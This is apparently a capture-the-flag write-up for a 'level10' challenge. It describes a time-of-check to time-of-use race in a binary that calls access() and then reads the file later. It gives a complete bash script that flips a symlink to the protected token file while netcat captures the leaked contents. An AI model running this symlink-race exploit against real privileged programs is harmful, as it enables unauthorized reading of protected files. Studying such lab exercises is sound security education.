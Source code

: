 We start once again by listing the files in the current directory:
```bash
ls
```
Output:
```bash
level10 token
```

We then copy the file to our machine using `scp`, and analyze the level10 executable using `ghidra`.

Looking through the code we notice that an `access` function is called on the file received as argument, but this file is "used" only later in the program.

This seems to be a **TOCTOU** (time-of-check to time-of-use) vulnerability, so let's exploit it.

We also see in the program that we need to listen to the **6969 port**.

Now let's create a script that will:
- Create a dummy file we have access to (`/tmp/file` with the content "data").
- Remove any existing symbolic link at `/tmp/link`
- Create a symbolic link at `/tmp/link` pointing to `/tmp/file`
- Start netcat to listen on port 6969 and redirect the output to `/tmp/output`
- Launch the `level10` binary with the symbolic link and the host address `127.0.0.1` as arguments
- In a loop, alternate the symbolic link `/tmp/link` between the `token` file (`/home/user/level10/token`) and `/tmp/file` 50 times
- Wait for the binary process to finish

Script:
```bash
#!/bin/bash

LINK="/tmp/link"
TARGET="/home/user/level10/token"
BINARY="/home/user/level10/level10"
OUTPUT="/tmp/output"

echo "data" > /tmp/file
rm -f $LINK
ln -s /tmp/file $LINK

nc -l 6969 > $OUTPUT &
NC_PID=$!
sleep 1

$BINARY $LINK 127.0.0.1 &
BINARY_PID=$!

for i in {1..50}; do
    ln -sf $TARGET $LINK
    ln -sf /tmp/file $LINK
done

wait $BINARY_PID
sleep 2

kill $NC_PID 2>/dev/null
cat $OUTPUT
```

And this way we get our next flag